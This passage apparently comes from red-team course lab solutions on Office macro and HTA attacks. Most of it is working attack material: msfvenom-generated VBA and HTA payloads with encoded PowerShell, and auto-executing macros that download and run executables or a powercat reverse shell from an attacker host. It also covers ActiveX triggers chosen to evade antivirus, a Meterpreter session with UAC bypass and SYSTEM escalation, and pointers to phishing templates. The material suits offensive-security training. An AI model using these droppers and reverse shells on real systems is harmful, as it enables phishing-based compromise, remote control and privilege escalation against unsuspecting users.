<span style="color: #e57373;">**Attacker machine**</span>.

Configure and start the Metasploit Handler.

`vim /root/Desktop/handler.rc`:
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.42.23
set LPORT 4444
run
```

`msfconsole -r /root/Desktop/handler.rc`

Create VBA Macros with MSF.

`cd /var/www/html`

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.42.23 LPORT=4444 -f vba-exe -o ./reverse_vba-psh.txt`:
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of vba-psh file: 7423 bytes
Saved as: /var/www/html/reverse_vba-psh.txt ←
```

`cat ./reverse_vba-psh.txt`:
```vb
Sub ucjtm()
  Dim itEV
  itEV = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnAH0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGkAcgArACcAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8AdwBzAFAAbwB3AGUAcgBTAGgAZQBsAGwAXAB2ADEALgAwAF" _
& "wAcABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACcAfQA7ACQAcwA9AE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAUwB0AGEAcgB0AEkAbgBmAG8AOwAkAHMALgBGAGkAbABlAE4AYQBtAGUAPQAkAGIAOwAkAHMALgBBAHIAZwB1AG0AZQBuAHQAcwA9ACcALQBuAG8AcAAgAC0AdwAgAGgAaQBkAGQAZQBuA" _
& 

...

& "RQB0AE4AdwAyAE4AbQA1ADEAYgA4AFoAVgArADMAWgBtAEwAWAAwAHsAMQB9AGgAMABzAHgAegB3AFoAZgBKAG8AMgBkAEYAMAAvADgAWABDAGoAdgBVAFgAewAyAH0ANQBGADYAdAB2AFoAMQBVACsAdgB5ADYANQBZAFoAbQBQAGUATAA2AGkAVgBWAGYAbwBUAE8ARQByAE8AaABzAFoASgB2ADgAWQAnACcAKwAnACcAbQByAEcAcQBLAHsAMQB9AFAAJwAnACsAJwAnAHMATAAvAG0AbQB3AHY" _
& "ZQBjAHQAUwB0AGEAbgBkAGEAcgBkAE8AdQB0AHAAdQB0AD0AJAB0AHIAdQBlADsAJABzAC4AVwBpAG4AZABvAHcAUwB0AHkAbABlAD0AJwBIAGkAZABkAGUAbgAnADsAJABzAC4AQwByAGUAYQB0AGUATgBvAFcAaQBuAGQAbwB3AD0AJAB0AHIAdQBlADsAJABwAD0AWwBTAHkAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAXQA6ADoAUwB0AGEAcgB0ACg" _
& "AJABzACkAOwA="
  Call Shell(itEV, vbHide)
End Sub
Sub AutoOpen()
  ucjtm
End Sub
Sub Workbook_Open()
  ucjtm
End Sub
```

We can also use an encoder to obfuscate the payload.

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.42.23 LPORT=4444 -f vba-psh -e x86/shikata_ga_nai -o /home/kali/Desktop/reverse_vba-psh_encoded.txt`:
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of vba-psh file: 7585 bytes
Saved as: /home/kali/Desktop/reverse_vba-psh_encoded.txt ←
```

`cat /home/kali/Desktop/reverse_vba-psh_encoded.txt`:
```vb
ub a7wHQOC()
  Dim fiycqkLF3F3H
  fiycqkLF3F3H = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnAH0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGkAcgArACcAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8AdwBzAFAAbwB3AGUAcgBTAGgAZQBsAGwAXAB2ADEALgAwAFwAcABv" _
& "wAxAH0AegB1AEkAJwAnACsAJwAnAFAAZQBsAFcAQQBvAFEATgBTAEcAVwBkAGgAOQBYAG4AWAB2AEcASQBKADEANAA2AGMANAA2AGMARwBHACsANgBYAGUAaAB3ACsATQA1AHoAVAB0AFcAWQB7ADAAfQBWAE0ARQBSAHQASwBYAHQARABoAEUAcAA0AGQAegBMAGgAUwB2AFkAdQBEADcASwBhAEUAZgA4AEIAegBWAFUANABJAEcAQQAnACcAKwAnACcAWQBaAEcAUwBwAEIAZABIADEAMgAyADUASQBDAF" _
& 

...

&
"CcAJwApACkAKQApACwAWwBTAHkAcwB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6AEQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQAbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZQBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJABzAC4AUgBlAGQAaQByAGUAYw" _
& "B0AFMAdABhAG4AZABhAHIAZABPAHUAdABwAHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQAbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAcwAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAByAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnAG4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFMAdABhAHIAdAAoACQAcwApADs" _
& "A"
  Call Shell(fiycqkLF3F3H, vbHide)
End Sub
Sub AutoOpen()
  a7wHQOC
End Sub
Sub Workbook_Open()
  a7wHQOC
End Sub
```

Start the web server to serve the payload.

`sudo systemctl restart apache2`

`sudo netstat -antp | grep ":80"`:
```
tcp6       0      0 :::80                   :::*                    LISTEN      21486/apache2       ←
```

Now we need to create a new Word document with an embedded macro.

**Steps to Follow**

1. **Copy the Macro Code**:
    - Open the Office document's macro editor.
    - Copy and paste the entire "Macro Code" section into the macro editor.
    - Save and close the macro editor.

**Enabling and Running the Macro**

- Once the document is saved, reopen it.
- A security warning will appear. Click "Enable Content" to allow the macro to run.
- The macro will execute automatically upon enabling the content.

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

`getuid`:
```
Server username: BOB-PC\bob
```

`sysinfo`:
```
Computer        : BOB-PC
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : REDTEAMLAB
Logged On Users : 7
Meterpreter     : x86/windows
```

`net localgroup administrators`:
```
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
bob
The command completed successfully.
```

`pgrep explorer.exe`:
```
4072
```

`migrate 4072`:
```
[*] Migrating from 2916 to 4072...
[*] Migration completed successfully.
```

`help`

`getprivs`: to attempt to enable all privileges available to the current process.

`bg`

`search bypassuac`, `use exploit/windows/local/windows/local/bypassuac_silentcleanup`, `show options`, `set SESSION 1`, `set LHOST 192.168.42.23`, `set LPORT 6666`, `run`":
```
[*] Started reverse TCP handler on 192.168.42.23:6666 

[+] Part of Administrators group! Continuing...
[*] Sending stage (176198 bytes) to 192.168.42.21
[+] Deleted C:\Users\bob\AppData\Local\Temp\QlqSNvIo.ps1
[*] Meterpreter session 2 opened (192.168.42.23:6666 -> 192.168.42.21:50021) at 2024-07-26 09:54:19 -0400 ←
```

`getuid`:
```
Server username: BOB-PC\bob
```

`getsystem`

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM
```

`pgrep svchost.exe`:
```
724
820
952
980
396
384
792
836 ←
964
1232
1940
2004
2020
2028
```

`migrate 836`:
```
[*] Migrating from 1608 to 836...
[*] Migration completed successfully.
```

### VBA PowerShell Dropper - Lab

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

`ip addr show eth1`:
```
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:9d:2e:ba brd ff:ff:ff:ff:ff:ff
    inet 192.168.42.23/24 brd 192.168.42.255 scope global dynamic noprefixroute eth1 ←
       valid_lft 395sec preferred_lft 395sec
    inet6 fe80::a50f:d743:435d:299a/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

Configure and start the Metasploit Handler.

`vim /root/Desktop/handler.rc`:
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.42.23
set LPORT 4444
run
```

`msfconsole -r /root/Desktop/handler.rc`

`msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f exe > /root/Desktop/shell.exe`:

`cd /root/Desktop`, `sudo python3 -m http.server 8080`

```vb
Sub AutoOpen()
	dropper
End Sub

Sub Document_Open()
	dropper
End Sub

Sub dropper()
	'Defining variable to store remote web server address
	Dim url As String
	'Defining variable to store PowerShell script/command to execute
	Dim psScript As String
	'Url of the remote web server hosting the payload for initial access
	url = "http://192.168.1.3:8080/shell.exe"
	'PowerShell script to download and execute the file
	psScript = "Invoke-WebRequest -Uri """ & url & """ -OutFile ""C:\Users\Admin\file.exe""; & vbCrLf & _
		"Start-Process -FilePath ""C:\Users\Admin\file.exe"""
	'Execute the PowerShell script using Shell hiding the window for extra stealth
		Shell "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command """ & psScript & """", vbHide

End Sub
```

Where `vbCrLf` is for adding a new line (carriage return and line feed) within the script, `_` is for continuing a long line of code onto the next line for better readability in VBA, and `vbHide` is for hiding the window of the executed process, ensuring it runs in the background without alerting the user.

When we open the Word document and enable the content, the macro is triggered automatically (via `AutoOpen` or `Document_Open`) and executes the `dropper` function. This function downloads the payload from the specified URL to the local machine and executes it silently, leveraging PowerShell commands.

### VBA Reverse Shell Macro (with Powercat) - Lab

[Powercat](https://github.com/besimorhino/powercat).

`git clone https://github.com/besimorhino/powercat.git`, `cd powercat`, `ls -l ./`:
```
total 60
-rw-rw-r-- 1 kali kali 11359 Nov 26 15:44 LICENSE.txt
-rw-rw-r-- 1 kali kali 37667 Nov 26 15:44 powercat.ps1
-rw-rw-r-- 1 kali kali  5172 Nov 26 15:44 README.md
```

`sudo python3 -m http.server 8080`

`nc -nvlp 1337`

```vb
Sub AutoOpen()
	powercat
End Sub

Sub Document_Open()
	powercat
End Sub

Sub powercat()
	'Defining variable to store remote web server address
	Dim url As String
	'Defining variable to store PowerShell script/command to execute
	Dim psScript As String
	'Url of the PowerShell script to download
	url = "http://192.168.1.3:8080/powercat.ps1"
	'PowerShell script to download and execute the PowerShell script
	psScript = "iex(New-Object System.Net.WebClient).DownloadString('" & url & "'); powercat -c 192.168.1.3 -p 1337 -e cmd"
	'Execute the PowerShell script using Shell hiding the window for extra stealth
		Shell "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command """ & psScript & """", vbHide
End Sub
```

🔄 Alternative 🔄

`LHOST=192.168.1.3`

`LPORT=1337`

`pwsh -c "iex(New-Object System.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > /tmp/reverse_shell.txt`

`cat /tmp/reverse_shell.txt | base64 -d`

`cd /tmp`, `sudo python3 -m http.server 8080`

```vb
Sub Document_Open()
	powercat
End Sub

Sub AutoOpen()
	powercat
End Sub

Sub powercat()
	Dim url As String
	Dim psScript As String
	url = "http://192.168.1.3:8080/reverse_shell.txt"
	psScript = "powershell -c ""$code=(New-Object System.Net.WebClient).DownloadString('" & url & "'); iex 'powershell -WindowStyle Hidden -E $code'"""
	CreateObject("Wscript.Shell").Run psScript, 0
End Sub
```

"I much prefer this version, especially when doing real redteamops or pentests than using Metasploit, just because of how lean it is and the fact we have a little bit more control on what it is going on (we can use encoding and encryption)."

### Using ActiveX Controls for Macro Execution - Theory

#### ActiveX

ActiveX is a set of technologies developed by Microsoft for creating interactive content within web pages and desktop applications.

It provides a framework for developing and deploying reusable software components, known as ActiveX controls, which can be embedded within web pages, documents, or applications.

ActiveX controls are similar to Java applets or browser plugins, but they are specific to the Windows platform and are typically developed using Microsoft's COM (Component Object Model) technology.

These controls can perform a wide range of tasks, from providing user interface elements (such as buttons or text boxes) to interacting with system resources or external data sources.

In Microsoft Office documents, ActiveX controls are often used to add interactive elements or functionality to documents, such as forms, buttons, or embedded media players. They allow users to interact with the document in more dynamic ways, enabling features like data input validation, automated workflows, or multimedia playback.

#### ActiveX and Macro Execution

ActiveX controls have the ability to execute code and macros on the user's system and can be leveraged by attackers to perform malicious actions, such as installing malware, stealing sensitive information, or compromising the system's security.

ActiveX is typically used for Macro execution in instances where the execution of the macro needs to be performed manually as opposed to using the `AutoOpen()` and `Document_Open()` event procedures to automatically execute the embedded macro.

Why? Most malicious Word documents use the usual reserved names `AutoOpen()` and `Document_Open(`) to automatically run macros. These names usually get picked up by AVs.

As a result, attackers need to identify ways of getting the target user to execute the macro themselves once they have opened the document. This is where ActiveX controls come in handy.

#### ActiveX Controls

Embedding an ActiveX control in a document is straightforward.

Once the developer tab is enabled (File > Options > Customize Ribbon), go to the developer tab and then to the Controls section on the ribbon. You will find a big list of controls under Legacy Tools > More Options.

When using ActiveX controls for macro execution, the victim will a warning message.

| ActiveX Control                           | Subroutine name                                  |
|-------------------------------------------|--------------------------------------------------|
| Microsoft Forms 2.0 Frame                 | Frame1_Layout                                    |
| Microsoft Forms 2.0 MultiPage             | MultiPage1_Layout                                |
| Microsoft ImageComboBox Control, version 6.0 | ImageCombo21_Change                             |
| Microsoft InkEdit Control                 | InkEdit1_GotFocus                                |
| Microsoft InkPicture Control              | InkPicture1_Painted<br>InkPicture1_Painting<br>InkPicture1_Resize |
| System Monitor Control                    | SystemMonitor1_GotFocus<br>SystemMonitor1_LostFocus |
| Microsoft Web Browser                     | WebBrowser1_BeforeNavigate2<br>WebBrowser1_BeforeScriptExecute<br>WebBrowser1_DocumentComplete<br>WebBrowser1_DownloadBegin<br>WebBrowser1_DownloadComplete<br>WebBrowser1_FileDownload<br>WebBrowser1_NavigateComplete2<br>WebBrowser1_NavigateError<br>WebBrowser1_ProgressChange<br>WebBrowser1_PropertyChange<br>WebBrowser1_SetSecureLockIcon<br>WebBrowser1_StatusTextChange<br>WebBrowser1_TitleChange |

There are a large number of procedures related to ActiveX control objects that are able to automatically run a macro.

The table outlines the ActiveX Controls and Subroutine names to use for automatic macro execution.

```vb
Sub InkEdit1_GotFocus()
	Run = Shell("cmd.exe /c PowerShell (New-Object System.Net.WebClient).DownloadFile('https://trusted.domain/file.exe', 'file.exe');Start-Process 'file.exe'", vbNormalFocus)
End Sub
```

This is an example of downloading and executing an executable file using cmd.exe and PowerShell. This technique is quite loud and has a very large on-disk footprint.

### Using ActiveX Controls for Macro Execution - Lab

#### Lab Solution

Create a new Word document. Then, in the Developer tab select the Legacy Tools and insert a new Check Box (ActiveX Control).

Then right click on it and select View Code...

```vb
Private Sub CheckBox1_Click()
	MsgBox "Testing ActiveX Macro Execution"
End Sub
```

And save the document as a Word 97-2003 Document.

Create a new Word document. Then, in the Developer tab select the Legacy Tools and then More Controls, select Microsoft InkEdit Control.

```
Private Sub InkEdit1_GotFocus()
	MsgBox "ActiveX PoC"
End Sub
```

`_GotFocus()` is really useful to facilitate the automatic execution of the VBA macros once the document is opened.

And save the document as a Word 97-2003 Document.

Create a new Word document. Then, in the Developer tab select the Macros and create a new macro.

```vb
Sub calc()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload, 1
End Sub
```

Now we can create another subroutine that calls the first one.
In the Developer tab select the Legacy Tools and then More Controls, select Microsoft InkEdit Control.

```vb
Sub InkEdit1_GotFocus()
	calc
End Sub
```

And save the document as a Word 97-2003 Document.

Obviously, we can do the same with Microsoft Excel.

Create a new Excel document. Then, in the Developer tab select the Macros and create a new macro.

```vb
Sub calc()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload, 1
End Sub
```

Now we can create another subroutine that calls the first one.
In the Developer tab select the Legacy Tools and then More Controls, select Microsoft Forms 2.0 Frame.

```vb
Sub Frame1_Layout()
	calc
End Sub
```

And save the document as a Word 97-2003 Document.

### Pretexting Phishing Documents (with office-phish-templates) - Theory

There is an online resource called [Office Phish Templates and Defense Recommendations](https://github.com/martinsohn/Office-phish-templates) that provides Microsoft Office phishing templates designed to reduce suspicion from target users. These templates use various methods, such as making the files appear legitimate, to trick users into enabling macro execution.

"Tricks the target into enabling content (macros) with fake messages. Once enabled, uses macros to reduce the risk of suspision from target user via verious methods."





### HTML Applications (HTA) - Theory

#### HTML Applications

HTML Applications (HTA) are a type of application created using HTML, CSS, and JavaScript that <u>run in a special environment</u> provided by <u>Internet Explorer (IE) or Microsoft Edge (specific builds)</u>.

HTA files have the <u>.hta extension</u> and can be executed on Windows systems like standalone applications, providing a way to create rich graphical user interfaces (GUIs) and leverage scripting capabilities.

HTML Applications (HTA) allow for the <u>arbitrary execution of programs/code with Internet Explorer or directly via mshta.exe</u>.

You can invoke Internet Explorer to execute the malicious executable by saving your HTML Application with the .hta file extension as opposed to .html.

Internet Explorer automatically executes HTML Applications with mshta.exe.

<u>MSHTA (Microsoft HTML Application Host) is a core element of Windows</u> and is used to execute .HTA files.

HTML Applications executed with Internet Explorer are always executed with the security context of the current user and are <u>not subject to the security restrictions imposed by the IE sandbox</u>.

This attack vector only works on Internet Explorer. In this case, why would this be a viable vector given that other third-party browsers are used over IE?

<u>IE is still used by organizations</u> and corporate environments as the default browser.
Many enterprise versions of Windows still utilize <u>IE over Edge</u> as the default.

We can leverage HTML Applications to automatically execute arbitrary code on a target system, this vector is typically classified as a Drive-by Compromise technique.

#### HTAs and Client-Side Attacks

**Execution Environment**:
- HTA files are executed by the mshta.exe program, which is the HTML Application Host.
- This host provides a security context that allows HTAs to have more privileged access to the system than standard web pages.
- <u>HTAs have access to the local filesystem, registry, and can execute ActiveX controls, making them powerful</u> tools for scripting tasks on Windows systems.

**Scripting Capabilities**:
- HTAs can contain JavaScript code that can interact with the underlying Windows operating system.
- This scripting capability enables attackers to perform various tasks, such as downloading and executing malicious payloads, modifying system settings, or collecting sensitive information from the victim's system.

**Persistence and Evasion**:
- Since HTAs are standalone files that run outside the browser, they can be used to persistently execute malicious code on the victim's system.
- <u>Attackers can use techniques to obfuscate their HTA files to evade detection by antivirus software and security controls</u>.

HTAs are commonly used in client-side attacks as a delivery mechanism. Attackers often use social engineering tactics to trick users into opening or executing HTA files, exploiting their trust to gain unauthorized access to their systems or data.

#### Microsoft HTML Application Host (mshta)

- mshta.exe is the HTML Application Host, a Windows utility that executes HTML Applications (HTA). HTA files are standalone applications written in HTML, CSS, and JavaScript that are executed by mshta.exe in a controlled environment.
- mshta.exe is a critical component of the Windows operating system that facilitates the execution of HTML Applications (HTA) outside the context of a web browser, providing a powerful platform for creating interactive and scriptable applications on Windows systems. However, its capabilities also pose security risks, particularly when used maliciously in client-side attacks.

#### Mshta.exe Functionality

**Execution of HTA Files**:
- mshta.exe is responsible for running HTA files on Windows systems. When an HTA file is executed (either by double-clicking it or by launching it from the command line), mshta.exe is invoked to interpret and execute the HTML, CSS, and JavaScript code contained within the HTA file.

**HTML Application Environment**:
- mshta.exe provides an environment for HTA files to run outside the constraints of a web browser.
- This environment allows HTAs to interact with the local filesystem, registry, and other system resources in a manner that is not typically possible with standard web pages running in a browser.

**Enhanced Privileges**:
- <u>HTAs executed by mshta.exe have more privileged access to the system</u> compared to web-based JavaScript executed in a browser. They can perform actions such as reading/writing files, executing system commands, and interacting with ActiveX controls.

**Security Considerations**:
- mshta.exe imposes certain security restrictions to mitigate potential risks associated with executing HTA files.
- For example, <u>HTAs executed by mshta.exe are subject to the Internet Explorer security zone settings</u>, which can restrict their ability to access certain resources or perform potentially harmful actions.

### HTML Applications (HTA) - Lab

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

`ip addr show eth1`:
``` 
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:9d:2e:ba brd ff:ff:ff:ff:ff:ff
    inet 192.168.42.23/24 brd 192.168.42.255 scope global dynamic noprefixroute eth1 ←
       valid_lft 395sec preferred_lft 395sec
    inet6 fe80::a50f:d743:435d:299a/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

`cd /var/www/html`

`sudo featherpad poc.hta`:
```html
<html>
	<head>
		<script>
			var payload = 'calc.exe'; ←
			new ActiveXObject('Wscript.Shell').Run(payload); ←
		</script>
	</head>
	<body>
		<h1>
			(Hidden) HTA PoC
		</h1>
		<script>
			self.close();
		</script>
	</body>
</html>
```

`sudo systemctl start apache2`

`sudo netstat -antp | grep ":80"`:
```
tcp6       0      0 :::80                   :::*                    LISTEN      7473/apache2  ←
```

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

`ipconfig`:
```
Windows IP Configuration

Ethernet adapter Ethernet:
   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::57a:a931:535e:3312%10
   IPv4 Address. . . . . . . . . . . : 192.168.42.21 ←
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :

Ethernet adapter Ethernet 2:
   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::7d37:990:54bf:89f1%6
   IPv4 Address. . . . . . . . . . . : 10.0.3.15
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.0.3.2
```

`ping -n 3 192.168.42.23`:
```
Pinging 192.168.42.23 with 32 bytes of data:
Reply from 192.168.42.23: bytes=32 time=2ms TTL=64
Reply from 192.168.42.23: bytes=32 time=2ms TTL=64
Reply from 192.168.42.23: bytes=32 time=4ms TTL=64

Ping statistics for 192.168.42.23:
    Packets: Sent = 3, Received = 3, Lost = 0 (0% loss), ←
Approximate round trip times in milli-seconds:
    Minimum = 2ms, Maximum = 4ms, Average = 2ms
```

Now, we need to open the webpage (`192.168.42.23/poc.hta`) from a Windows machine using Internet Explorer. This will prompt us to allow the execution of the HTA file outside the browser sandbox.

The HTA file can also be executed directly from the Run dialog or from the command line interface (CLI) using the following command: `mshta.exe http://192.168.42.23/poc.hta`.

Note that the `mshta.exe` execution can be also embedded in an Office macro.

```vb
Sub AutoOpen()
	ExecuteHTA
End Sub

Sub Document_Open()
	ExecuteHTA
End Sub

Sub ExecuteHTA()
	Dim url As String
	Dim command As String
	url = "http://192.168.42.23/reverse_shell.hta"
	command = "mshta.exe" & url
	Shell command, vbNormalFocus
End Sub
```

### HTML Applications (HTA) Attacks (with MSFvenom) - Lab

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

`ip addr show eth1`:
```
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:9d:2e:ba brd ff:ff:ff:ff:ff:ff
    inet 192.168.42.23/24 brd 192.168.42.255 scope global dynamic noprefixroute eth1 ←
       valid_lft 395sec preferred_lft 395sec
    inet6 fe80::a50f:d743:435d:299a/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

`cd /var/www/html`

`sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.42.23 LPORT=4444 -f hta-psh -o ./reverse_shell.hta`:
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7377 bytes
Saved as: ./reverse_shell.hta ←
```

`cat ./reverse_shell.hta`:
```html
<script language="VBScript">
  window.moveTo -4000, -4000
  Set nwQVXHs6g3 = CreateObject("Wscript.Shell")
  Set t9_Ev = CreateObject("Scripting.FileSystemObject")
  For each path in Split(nwQVXHs6g3.ExpandEnvironmentStrings("%PSModulePath%"),";")
    If t9_Ev.FileExists(path + "\..\powershell.exe") Then
      nwQVXHs6g3.Run "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnAH0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGkAcgArACcAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8AdwBzAFAAbwB3AGUAcgBTAGgAZQBsAGwAXAB2ADEALgAwAFwAcABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACcAfQA7ACQAcwA9AE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAUwB0AGEAcgB0AEkAbgBmAG8AOwAkAHMALgBGAGkAbABlAE4AYQBtAGUAPQAkAGIAOwAkAHMALgBBAHIAZwB1AFsAUwB5AHMAdABlAG0ALgBJAE8ALgBDAG8AbQBwAHIAZQBzAHMAaQBvAG4ALgBDAG8AbQBwAHIAZQBzA

...
      HMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYwBvAG0AcAByAGUAcwBzACkAKQApAC4AUgBlAGEAZABUAG8ARQBuAGQAKAApACkAKQAnADsAJABzAC4AVQBzAGUAUwBoAGUAbABsAEUAeABlAGMAdQB0AGUAPQAkAGYAYQBsAHMAZQA7ACQAcwAuAFIAZQBkAGkAcgBlAGMAdABTAHQAYQBuAGQAYQByAGQATwB1AHQAcAB1AHQAPQAkAHQAcgB1AGUAOwAkAHMALgBXAGkAbgBkAG8AdwBTAHQAeQBsAGUAPQAnAEgAaQBkAGQAZQBuACcAOwAkAHMALgBDAHIAZQBhAHQAZQBOAG8AVwBpAG4AZABvAHcAPQAkAHQAcgB1AGUAOwAkAHAAPQBbAFMAeQBzAHQAZQBtAC4ARABpAGEAZwBuAG8AcwB0AGkAYwBzAC4AUAByAG8AYwBlAHMAcwBdADoAOgBTAHQAYQByAHQAKAAkAHMAKQA7AA==",0
      Exit For
    End If
  Next
  window.close()
</script>
```

`sudo systemctl start apache2`

`sudo netstat -antp | grep ":80"`:
```
tcp6       0      0 :::80                   :::*                    LISTEN      34534/apache2       ←
```

`nc -lnvp 4444`: to start a netcat listener on port 4444, where `-l` sets the listener mode, `-n` prevents DNS resolution, `-v` enables verbose mode, and `-p` specifies the port number.

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

Now, we need to open the webpage (`192.168.42.23/reverse_shell.hta`) from a Windows machine using Internet Explorer. This will prompt us to allow the execution of the HTA file outside the browser sandbox.
Then we need to allow the execution of the HTA outside the browser sandbox.

<span style="color: #e57373;">**Attacker machine**</span>.

`whoami`:
```
bob-pc\bob
```

`systeminfo`:
```
Host Name:                 BOB-PC
OS Name:                   Microsoft Windows 10 Enterprise Evaluation
OS Version:                10.0.19045 N/A Build 19045
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          bob
Registered Organization:   
Product ID:                00329-20000-00001-AA002
Original Install Date:     5/24/2024, 2:04:13 PM
System Boot Time:          7/26/2024, 10:22:02 AM
System Manufacturer:       innotek GmbH
System Model:              VirtualBox
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 165 Stepping 2 GenuineIntel ~2592 Mhz
BIOS Version:              innotek GmbH VirtualBox, 12/1/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+01:00) Amsterdam, Berlin, Bern, Rome, Stockholm, Vienna
Total Physical Memory:     2,048 MB
Available Physical Memory: 354 MB
Virtual Memory: Max Size:  3,526 MB
Virtual Memory: Available: 550 MB
Virtual Memory: In Use:    2,976 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    redteamlab.local
Logon Server:              \\BOB-PC
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB5017022
                           [02]: KB5015684
                           [03]: KB5017308
                           [04]: KB5014032
                           [05]: KB5016705
Network Card(s):           2 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Desktop Adapter
                                 Connection Name: Ethernet
                                 DHCP Enabled:    Yes
                                 DHCP Server:     192.168.42.1
                                 IP address(es)
                                 [01]: 192.168.42.21
                                 [02]: fe80::57a:a931:535e:3312
                           [02]: Intel(R) PRO/1000 MT Desktop Adapter
                                 Connection Name: Ethernet 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.0.3.2
                                 IP address(es)
                                 [01]: 10.0.3.15
                                 [02]: fe80::7d37:990:54bf:89f1
